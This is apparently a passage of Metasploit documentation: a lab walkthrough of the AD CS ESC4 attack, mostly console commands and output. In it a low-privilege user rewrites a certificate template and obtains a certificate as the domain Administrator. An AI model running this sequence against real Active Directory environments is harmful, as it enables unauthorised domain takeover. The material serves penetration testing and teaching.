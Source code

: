 ```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/ldap/ad_cs_cert_template 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set USERNAME normaluser
USERNAME => normaluser
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set PASSWORD normalpass
PASSWORD => normalpass
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set ACTION UPDATE 
ACTION => UPDATE
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set VERBOSE true 
VERBOSE => true
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 172.30.239.85

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.30.239.85:389 Getting root DSE
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
[*] Parsing SDDL text: D:PAI(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AU)
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > 
```

Now that the certificate template has been updated to be vulnerable to ESC1, then we can use the `previous` shortcut
to switch back to the last module and reattempt to issue the certificate. This time, the operation succeeds.

```msf
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > previous 
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```

Finally, we switch back to the `ad_cs_cert_template` module to restore the original configuration. We do this by
setting the local template data option `TEMPLATE_FILE` to the JSON file that was created by the previous run.
